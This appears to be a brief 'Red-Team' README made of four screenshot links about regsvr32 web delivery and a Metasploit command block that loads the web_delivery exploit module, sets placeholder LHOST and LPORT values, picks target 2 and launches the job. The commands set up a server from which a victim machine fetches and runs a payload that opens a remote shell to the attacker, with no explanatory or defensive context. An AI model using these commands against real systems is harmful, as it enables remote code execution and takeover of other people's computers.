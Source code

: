# Red-Team

<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_msf_webdelivery.png" width="600">

<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_execute.png" width="600">
<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_web_delivery_execute.png" width="600">
<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_web_delivery_shell.png" width="600">
```

    use exploit/multi/script/web_delivery
    set LHOST <ip address>
    set LPORT <port>
    set target 2
    exploit -j
    
```
